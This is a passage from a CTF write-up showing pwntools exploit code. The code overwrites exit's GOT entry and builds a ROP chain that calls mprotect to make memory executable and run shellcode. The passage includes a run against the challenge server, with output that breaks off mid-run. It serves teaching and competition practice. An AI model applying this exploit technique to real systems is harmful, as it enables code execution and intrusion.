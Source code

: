 Finally, the address of `mprotect` can be found by checking the [libc.blukat.me entry for this specific libc](https://libc.blukat.me/d/libc6_2.31-0ubuntu9_amd64.symbols). It's at `LIBC_BASE + 0x11b970`.

This makes our final rop chain:
```py
log.info("preparing rop chain")
rop = b''
rop += p64(LIBC_BASE + 0x1626d6) # pop rdx; pop rbx; ret
rop += p64(7)
rop += p64(0)
rop += p64(0x00401439) # pop rsi; pop r15; ret
rop += p64(0x1000)
rop += p64(0)
rop += p64(0x0040143b) # pop rdi; ret
rop += p64(0x00404000)
rop += p64(LIBC_BASE + 0x11b970) # mprotect(0x00404000, 0x1000, READ | WRITE | EXEC)
rop += p64(SHELLCODE_ADDR+9)
```

With a typical rop chain, we can simply drop this onto the stack, but because there is no `ret`, we have to hijack the `call exit(0)` instead. Because of this, we have to be careful that the stack is properly set up. I overwrote `exit` with the `pop rdi` gadget to be able to inspect the stack when it exits, making sure there is a smooth transition to the actual rop chain.
```py
log.info("writing rop chain")
p.recvuntil(b'where?\n')
p.sendline(str(ADDR_PUTS_GPLT).encode('utf-8'))
p.recvuntil(b'where?\n')
p.sendline(str(ADDR_EXIT_GPLT).encode('utf-8'))
p.recvuntil(b'What?\n')
p.sendline(str(0x0040143b).encode('utf-8')) # pop rdi; ret
p.recvuntil(b'challenge?\n')
p.sendline(rop)
log.info("done writing rop chain")
pause()
p.interactive()
```

Hopping into GDB and setting a breakpoint right before the exit, we can follow the chain to see if it works.

![](https://user-images.githubusercontent.com/62577178/182061491-f51a039c-1dd7-4b80-8815-8b075ed52636.png)

It's a good thing there's a `pop rdi`! Turns out, when calling `exit`, this extra value ends up on the stack, which is not part of our rop chain, so it needs to get popped. Had there been no extra value to pop, the `pop rdi; ret` gadget could have been replaced with a `ret` gadget.

Stepping through our rop chain further, until right before `mprotect`, we can see that all the registers are set up for a `mprotect` call, and after it returns, it will return to our shellcode.

![](https://user-images.githubusercontent.com/62577178/182061954-0710daec-9865-48c9-ac4d-be118fd8ec25.png)

Looks like the rop chain worked, time to test it on the actual server.
```
$ python test.py
[+] Opening connection to litctf.live on port 31790: Done
[*] puts at: 0xd5c345a0
[*] libc at: 0xd5bad000
[*] getting infinite writes...
[*] Paused (press any to continue)
[*] libc at: 0x7f99d5bad000
[*] Paused (press any to continue)
[*] writing shellcode
[*] shellcode done writing
[*] Paused (press any to continue)
[*] preparing rop chain
```